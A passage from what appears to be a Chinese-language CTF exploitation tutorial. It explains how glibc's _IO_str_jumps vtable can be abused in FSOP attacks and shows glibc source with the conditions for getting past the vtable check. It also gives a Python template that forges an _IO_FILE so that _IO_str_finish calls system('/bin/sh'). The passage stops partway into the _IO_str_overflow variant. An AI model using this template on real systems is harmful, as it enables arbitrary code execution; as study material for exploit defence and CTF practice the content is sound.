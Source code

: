这种方法主要利用的是`_IO_str_jumps`这张vtable表，来绕过对表位置的检测

```c
void _IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

这里仍然需要构造好条件，因为最后我们是要模拟触发_IO_OVERFLOW。

```c
//绕过条件
fp->_mode <= 0 
fp->_IO_write_ptr > fp->_IO_write_base

fp->vtable = _IO_str_jumps_addr
fp->_flags & _IO_USER_BUF = 0 // 最低位没有 1 

fp->_IO_buf_base != 0 ==> fp->_IO_buf_base = binsh_addr
                          fp->_s._free_buffer = system_addr 

#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
```

```python
# 模板
def FILE(binsh,system,IO_str_jumps):
	fake_IO_FILE  = p64(0xfbad1800) + p64(0)*3
	fake_IO_FILE += p64(0) + p64(1) # fp->_IO_write_ptr > fp->_IO_write_base
	fake_IO_FILE += p64(0) + p64(binsh)
	fake_IO_FILE = fake_IO_FILE.ljust(0xC0,'\x00')
	fake_IO_FILE += p64(0) + p64(0)*2	# _mode <= 0
	fake_IO_FILE += p64(IO_str_jumps-8)
	fake_IO_FILE += p64(0) + p64(system)# 0xe8
	return fake_IO_FILE

fake_IO = FILE(sh_addr,system_addr,_IO_str_jumps)
```



### _IO_str_overflow的利用(其一)

利用链

```c
FSOP->_IO_str_overflow
```



```c
#define _IO_CURRENTLY_PUTTING 0x800
#define _IO_USER_BUF 1
int _IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;
  _IO_size_t pos;
    
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
    
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;//二进制表示的 _flags 倒数第三位不能为1 。0xfbad1800
```